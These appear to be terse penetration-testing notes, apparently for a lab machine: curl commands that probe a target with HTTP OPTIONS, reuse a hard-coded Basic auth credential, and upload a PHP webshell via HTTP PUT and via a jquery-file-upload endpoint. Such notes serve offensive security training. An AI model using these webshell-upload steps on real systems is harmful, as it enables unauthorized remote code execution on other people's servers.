 ```bash - kali
curl -v -X OPTIONS http://$TARGET/test
```
```bash - kali
curl -v -X OPTIONS http://$TARGET/test -H "Authorization: Basic YWRtaW5pc3RyYW50OnNsZWVwbGVzcw=="
```
![[0._PHP Webshells#wwolf]]
```bash - kali
curl --upload-file webshell.php -v --url http://$TARGET/test/webshell.php -0 --http1.0 -H "Authorization: Basic YWRtaW5pc3RyYW50OnNsZWVwbGVzcw=="
```
```bash - kali
curl -F "files=@webshell.php" http://$TARGET/Books/apps/jquery-file-upload/server/php/
```